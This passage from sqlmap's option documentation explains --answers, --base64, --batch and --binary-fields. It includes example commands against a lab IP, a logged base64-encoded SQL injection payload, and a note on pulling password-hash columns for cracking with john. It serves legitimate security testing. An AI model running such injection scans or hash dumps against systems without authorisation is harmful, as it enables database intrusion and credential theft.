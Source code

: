 ```
$ python sqlmap.py -u "http://192.168.22.128/sqlmap/mysql/get_int.php?id=1"--te\
chnique=E --answers="extending=N" --batch
[...]
[xx:xx:56] [INFO] testing for SQL injection on GET parameter 'id'
heuristic (parsing) test showed that the back-end DBMS could be 'MySQL'. Do you 
want to skip test payloads specific for other DBMSes? [Y/n] Y
[xx:xx:56] [INFO] do you want to include all tests for 'MySQL' extending provide
d level (1) and risk (1)? [Y/n] N
[...]
```

### Declare parameters containing Base64 encoded data

Option: `--base64`

In case that the target web application is using Base64 encoding to store data inside specific parameters (e.g. Base64 encoded JSON dictionary), user can declare it with option `--base64` and thus instruct sqlmap to properly test the underlying values.

Example usage (Note: `Base64('{"id": 1}') == 'eyJpZCI6IDF9'`):

```
$ python sqlmap.py -u http://192.168.22.128/sqlmap/mysql/get_base64?value=eyJpZC\
I6IDF9 -v 5 --base64=value
[...]
[23:43:35] [INFO] testing 'Boolean-based blind - Parameter replace (original valu
e)'
[23:43:35] [PAYLOAD] KFNFTEVDVCAoQ0FTRSBXSEVOICgzODY1PTUzMTQpIFRIRU4gJ3siaWQiOiAx
fScgRUxTRSAoU0VMRUNUIDUzMTQgVU5JT04gU0VMRUNUIDE5MzIpIEVORCkp
[23:43:35] [TRAFFIC OUT] HTTP request [#11]:
GET /?value=KFNFTEVDVCAoQ0FTRSBXSEVOICgzODY1PTUzMTQpIFRIRU4gJ3siaWQiOiAxfScgRUxTR
SAoU0VMRUNUIDUzMTQgVU5JT04gU0VMRUNUIDE5MzIpIEVORCkp HTTP/1.1
Host: localhost
Cache-control: no-cache
Accept-encoding: gzip,deflate
Accept: */*
User-agent: sqlmap/1.4.4.3#dev (http://sqlmap.org)
Connection: close
[...]
```

### Act in non-interactive mode

Switch: `--batch`

If you want sqlmap to run as a batch tool, without any user's interaction  when sqlmap requires it, you can force that by using switch `--batch`. This will leave sqlmap to go with a default behaviour whenever user's input would be required. 

### Binary content retrieval

Option `--binary-fields`

In case of binary content retrieval, like in example of tables having column(s) with stored binary values (e.g. column `password` with binary stored password hash values), it is possible to use option `--binary-fields` for (extra) proper handling by sqlmap. All those fields (i.e. table columns) are then retrieved and represented in their hexadecimal representation, so afterwards they could be properly processed with other tools (e.g. `john`).
